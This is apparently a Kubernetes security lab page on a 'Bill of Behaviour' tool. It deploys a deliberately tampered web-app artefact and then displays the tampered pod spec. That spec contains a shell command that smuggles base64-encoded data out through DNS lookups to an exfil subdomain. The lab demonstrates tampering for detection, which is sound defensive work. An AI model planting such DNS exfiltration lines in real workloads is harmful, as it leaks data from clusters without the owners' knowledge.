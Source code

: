 ```yaml
---
kind: unit

title: Use the Bill of Behaviour

name: bob-use
---
```



Now with tampering
## 3 deploy artefact 


```sh
cd traces/kubescape-verify/attacks/webapp_t/
chmod +x setup.sh
./setup.sh
```


if you deployed the tampered one, notice

```
    - args:
      - /bin/sh
      - -c
      - nslookup NjQgYnl0ZXMgZnJvbSAxNzIuMTYuMC4yOiBpY21wX3NlcT0zIHR0bD02MyB0aW1lPTAuNDUzIG1z.exfil.k8sstormcenter.com
        > /dev/null 2>&1
      path: /bin/sh
```
